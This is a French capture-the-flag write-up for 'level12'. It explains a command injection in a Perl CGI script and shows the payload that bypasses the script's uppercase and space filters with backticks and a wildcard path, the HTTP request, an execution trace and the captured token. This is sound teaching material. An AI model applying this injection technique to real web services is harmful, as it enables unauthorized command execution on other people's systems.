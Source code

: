 # Niveau 12 : Injection de Commande via Script Perl CGI

Ce document explique la vulnérabilité dans le script `level12.pl` et les étapes suivies pour l'exploiter.

## 1. Explication du Script

La cible est un script Perl CGI (`level12.pl`) écoutant sur `localhost:4646`.

Parties clés du script :

-   Il utilise le module CGI pour obtenir les paramètres `x` et `y` de la requête :
    ```perl
    use CGI qw{param};
    # ... plus tard ...
    n(t(param("x"), param("y")));
    ```
-   La sous-routine `t` traite le paramètre `x` :
    -   Le convertit en majuscules : `$xx =~ tr/a-z/A-Z/;`
    -   Supprime tout après le premier espace : `$xx =~ s/\s.*//;`
    ```perl
    sub t {
      $nn = $_[1]; # param y
      $xx = $_[0]; # param x
      $xx =~ tr/a-z/A-Z/;
      $xx =~ s/\s.*//;
      # ...
    }
    ```
-   Il utilise ensuite la valeur traitée `$xx` directement dans une commande shell exécutée via des backticks (apostrophes inverses) :
    ```perl
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    ```
-   Le script vérifie si une ligne retournée par `egrep`, spécifiquement la partie après le premier deux-points (`:`), correspond au paramètre `y` (`$nn`) en tant qu'expression régulière (regex). Il affiche `..` si ça correspond et `.` sinon.

## 2. Analyse de la Vulnérabilité

La vulnérabilité principale est une **Injection de Commande** dans la ligne :
```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```
Le script intègre directement la variable `$xx` contrôlée par l'utilisateur (bien que modifiée) dans une chaîne de commande exécutée par le shell du système via des backticks.

**Défis :**

1.  **Conversion en Majuscules :** `$xx =~ tr/a-z/A-Z/;` empêche l'injection directe de commandes en minuscules (comme `getflag`).
2.  **Suppression des Espaces :** `$xx =~ s/\s.*//;` empêche l'injection de commandes avec des espaces ou des arguments séparés par des espaces.

## 3. Méthode d'Exploitation

La vulnérabilité a été exploitée en contournant les limitations de la conversion en majuscules et de la suppression des espaces pour exécuter la commande `getflag` et rediriger sa sortie vers un fichier lisible.

**Étapes :**

1.  **Créer un Script Auxiliaire :** Un script auxiliaire a été créé à `/tmp/GETFLAG`. Crucialement, ce script contenait *lui-même* la commande et la redirection nécessaires :
    ```bash
    # Commande exécutée dans le shell :
    echo "getflag > /tmp/FLAG" > /tmp/GETFLAG
    chmod +x /tmp/GETFLAG
    ```
    Lorsque `/tmp/GETFLAG` est exécuté, il lance `getflag` et écrit la sortie dans `/tmp/FLAG`.

2.  **Construire le code d'exploitation:** Le paramètre `x` a été conçu pour exécuter le script auxiliaire en utilisant des backticks et un chemin avec joker (`*`) :
    *   Payload : `` `/*/GETFLAG` ``
    *   Ce code d'exploitation ne contient pas d'espaces, évitant le problème de la suppression des espaces.
    *   Le joker `*` n'est pas affecté par la conversion en majuscules.

3.  **Envoyer la Requête :** Le code d'exploitation a été envoyée au script via `nc` (l'encodage URL n'était pas strictement nécessaire ici car les caractères critiques `*`, `/`, `` ` `` passent souvent, mais encoder en `%60%2A%2FGETFLAG%60` fonctionnerait aussi) :
    ```http
    GET /?x=`/*/GETFLAG`&y=a HTTP/1.0
    ```
    (Suivi de deux appuis sur Entrée)

4.  **Trace d'Exécution :**
    *   Le script Perl reçoit `` x=`/*/GETFLAG` ``.
    *   Convertit en majuscules : ``$xx = `/*/GETFLAG` ``.
    *   Supprime les espaces (aucun) : `$xx` reste `` `/*/GETFLAG` ``.
    *   Commande exécutée par Perl : `` `egrep "^`/*/GETFLAG`" /tmp/xd 2>&1` ``.
    *   Le shell exécute les backticks internes : `` `/*/GETFLAG` ``.
    *   Le shell développe `/*/GETFLAG` en `/tmp/GETFLAG`.
    *   Le shell exécute le script `/tmp/GETFLAG`.
    *   `/tmp/GETFLAG` exécute `getflag > /tmp/FLAG`, écrivant le flag dans `/tmp/FLAG`.
    *   Les backticks internes ne produisent aucune sortie standard (à cause de la redirection).
    *   La commande `egrep` externe s'exécute sur un préfixe de motif vide.
    *   Le script Perl affiche `.` (aucune correspondance trouvée basée sur la sortie de `egrep`).

5.  **Récupérer le Flag :** Le flag a été lu depuis le fichier de sortie :
    ```bash
    cat /tmp/FLAG
    ```
    Sortie : `Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr`

Cette méthode a astucieusement utilisé un chemin avec joker dans une substitution de commande pour contourner la validation d'entrée du script et exécuter la commande souhaitée indirectement via le script auxiliaire, redirigeant la sortie avec succès.